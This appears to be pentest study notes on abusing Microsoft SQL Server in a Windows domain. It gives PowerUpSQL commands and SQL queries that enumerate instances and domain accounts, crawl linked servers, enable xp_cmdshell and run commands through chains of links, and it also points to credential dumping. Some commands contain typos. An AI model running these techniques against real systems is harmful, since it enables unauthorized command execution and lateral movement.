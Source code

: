 # Domain User accounts

* SQL server allows Domain user logins (it a part of the domain trust)
* Once domain user access is present, enumerate privileges it has on SQL servers in the domain

After gaining shell access to the user (command execution) following can be done:

Check if current user has access to SQL Servers in domain:
```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

For alternative credentials:
```
unas /noprofile /netonly /user:<domain\username> powershell.exe
```

A user with `public` access can be used to enumerate domain accounts and groups in the forest and other trusted forests
```
Get-SQLFuzzDomainAccount -Instance instance -StartId 500 -EndId 2000 -Verbose
```
> https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/

If local admin rights are present, dump credentials.

# Database Links

* Allows a SQL Server to access external data sources (SQL Servers, OLE DB)
* If SQL Servers are linked:
  * Can execute stored procedures
  * Work across SQL server versions and forests

> https://docs.microsoft.com/en-us/sql/relational-databases/linked-servers/linked-servers-database-engine
> http://www.labofapenetrationtester.com/2017/03/using-sql-server-for-attacking-forest-trust.html

Search for linked databases:
```
select * from master..sysservers
```

```
Get-SQLServerLink -Instance instance -Verbose
```

Run queries on linked databases:
```
select * from openquery("instance",'select * frommaster..sysservers')
```

Run queries on chain of linked databases:
```
select * from openquery("inatance1",'select * from openquery("instance2",''select * from master..sysservers'')')
```

```
Get-SQLServerLinkCrawl -Instance instance1 -Verbose
```

If `rpcout` is enabled for all links (disabled by default), `xp_cmdshell` can be enabled using:

```
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "instance2")
```

Command execution with linked databases:

```
select * from openquery("instance1",'select * from
openquery("instance2",''select * from openquery("instance3",''''select @@version as version;exec master..xp_cmdshell "cmd /c calc.exe"'''')'')')
```

```
Get-SQLServerLinkCrawl -Instance instance1 -Query "exec master..xp_cmdshell 'cmd /c calc.exe'"-Verbose
```

Decrypting Database Link Server Passwords:

> https://blog.netspi.com/decrypting-mssql-database-link-server-passwords/
